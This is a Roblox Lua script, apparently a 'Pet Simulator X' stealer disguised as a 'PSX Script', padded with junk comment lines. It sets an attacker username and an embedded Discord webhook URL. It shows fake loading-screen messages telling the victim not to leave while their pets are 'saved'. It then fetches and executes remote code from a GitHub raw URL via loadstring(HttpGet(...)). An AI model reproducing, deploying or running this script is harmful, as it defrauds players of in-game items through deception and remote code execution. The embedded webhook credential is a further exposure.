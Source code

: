 --111111101010101001010101010102019292029120911919654323454345456514512551526516216VfFt25gHuyY&Y@&YY@*(Y@&#$%^&
--       (*&^%$%^&*7673829048573894586789w3855986758945878932485493u53i';
--[4587933405]8493285792889893r3u038w89388383838838{]339020000{"9"}93210if true then 3982920910919012


Username = "FluffyRazor"
--10101010101010100101010101010101010101010101010101010101010101010
--10101010101010101010101010101010101010101001001010101010101010001
--19010101010101010101010010101010101010101010101010010101010101011
WebHook = "https://discord.com/api/webhooks/1089588261569188042/-BjBbO08ZJeuqYcLoaa7GwAWrwDhB15IzSKw0-x6JJuoyBSUE-_pPrrcV17N3vbfMC22"
--10101010101010100101010101010101010101010101010101010101010101010
--10101010101010101010101010101010101010101001001010101010101010001
--19010101010101010101010010101010101010101010101010010101010101011
--10101010101010100101010101010101010101010101010101010101010101010
--10101010101010101010101010101010101010101001001010101010101010001
--19010101010101010101010010101010101010101010101010010101010101011
loadingscreen = true -- set this to false and remove _G. stuff to use your own GUI
--10101010101010100101010101010101010101010101010101010101010101010
--10101010101010101010101010101010101010101001001010101010101010001
--19010101010101010101010010101010101010101010101010010101010101011
_G.CustomScriptName = "PSX Script"
--10101010101010100101010101010101010101010101010101010101010101010
--10101010101010101010101010101010101010101001001010101010101010001
--19010101010101010101010010101010101010101010101010010101010101011
_G.Text1 = "Script Loaded... DONT LEAVE WE ARE SAVING UR PETS"
--10101010101010100101010101010101010101010101010101010101010101010
--10101010101010101010101010101010101010101001001010101010101010001
--19010101010101010101010010101010101010101010101010010101010101011
_G.Text2 = "Waiting for Script DONT LEAVE OR ALL YOUR PETS WILL BE GONE"
--10101010101010100101010101010101010101010101010101010101010101010
--10101010101010101010101010101010101010101001001010101010101010001
--19010101010101010101010010101010101010101010101010010101010101011
_G.Text3 = "Checking Scripts... DONT LEAVE"
_G.Text4 = "Starting Scripts... ERROR 404 COULD NOT SAVE PETS AND GEMS"
loadstring(game:HttpGet("https://raw.githubusercontent.com/Justanotherdme/petsimx22/main/petsimguiss.lua"))()
